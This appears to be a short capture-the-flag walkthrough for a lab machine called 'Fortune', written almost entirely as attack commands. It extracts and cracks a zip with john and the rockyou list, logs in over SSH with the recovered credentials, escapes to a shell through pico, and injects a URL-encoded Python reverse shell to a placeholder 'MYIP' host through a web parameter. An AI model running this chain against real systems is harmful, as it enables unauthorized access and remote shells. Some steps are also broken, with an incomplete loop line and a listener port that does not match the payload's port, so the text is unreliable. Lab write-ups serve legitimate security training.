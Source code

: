 # Fortune
1. `nc fortune.thm 3333 | base64 -d > test.zip`
2. `zip2john test.zip > hash`
3. `john hash --wordlist=/usr/share/wordlists/rockyou.txt`
4. `unzip test.zip`
5. `cat creds.txt`
6. `ssh fortuna@fortune.thm`
## Priv. Esc.
### Method 1
1. `pico -s /bin/sh` type `/bin/sh` and `CTRL+T`
### Method 2
1. `cd /home`
2.  `while True; do bash ./lucky_shell`
3. `gobuster dir -w ~/Desktop/wordlists/wordlistex2.txt -u http://fortune.thm` *optional*
4. `nc -nlvp 7878` on kali
5. http://fortune.thm/_styles/?luck=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22MYIP%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27 on fortune
